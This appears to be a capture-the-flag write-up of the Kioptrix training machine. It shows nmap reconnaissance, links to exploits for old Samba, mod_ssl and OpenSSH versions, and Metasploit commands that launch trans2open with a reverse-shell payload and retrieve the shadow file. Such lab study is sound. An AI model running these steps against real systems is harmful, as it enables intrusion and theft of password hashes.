


# Kioptrix (192.168.64.3) CTF Write-Up

**Author:** Alan Garcia  
**Date:** 8/31/23

## Table of Contents
- [Introduction](#introduction)
- [Challenge Overview](#challenge-overview)
- [Initial Reconnaissance](#initial-reconnaissance)
- [Exploitation](#exploitation)
- [Flag Retrieval](#flag-retrieval)
- [Resources](#resources)

---

## Introduction
CTF prepared by TCM https://academy.tcm-sec.com/

## Challenge Overview
This CTF had a difficulty of easy

## Initial Reconnaissance
Detail the information-gathering phase:
- IP : (192.168.64.3)
- NMAP revealed the following ports opened:

  nmap -A -p- -T4 192.168.64.3  
  PORT      STATE SERVICE     VERSION
  22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
  111/tcp   open  rpcbind     2 (RPC #100000)
  139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
  443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b

-139
  Interesting Items:
  SMB
  Unix (Samba 2.2.1a)
  
  Could anonymously connect to IPC with smbclient, but not Admin
  139- Potentially Vulnerable to:
  https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/
  https://www.exploit-db.com/exploits/10
  https://www.exploit-db.com/exploits/7

-80/443
  Interesting items:
  80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)

  Potentially Vulnerable to:
  mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. 
  http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.
  https://github.com/heltonWernik/OpenLuck
-22
  SSH
   OpenSSH 2.9p2 (protocol 1.99)
   
   22- Possible Vulnerabilities
   https://www.exploit-db.com/exploits/21402
 
- Service enumeration (nmap, netcat, etc.)
- Analysis of open ports and running services
- Any initial clues or data found during this phase

## Exploitation

-The SMB (Samba) exploit:

I quickly found that the service running under port 139 (samba) was seriously vulnerable and decided to attack that. (Note: Samba is very similar to FTP / NFS, it’s basically a file-sharing system between Linux and Windows).

Searched for Samba 2.2.1a exploit on metasploit:

Loaded the exploit through metasploit:

msf6 exploit(linux/samba/trans2open) > set payload linux/x86/shell_reverse_tcp
payload => linux/x86/shell_reverse_tcp
msf6 exploit(linux/samba/trans2open) > exploit

## Flag Retrieval
Retrieved the shadow file:

## Resources
List any external sources, tools, or references you used:
- https://nmap.org/
- https://www.metasploit.com/
- https://www.metasploit.com/
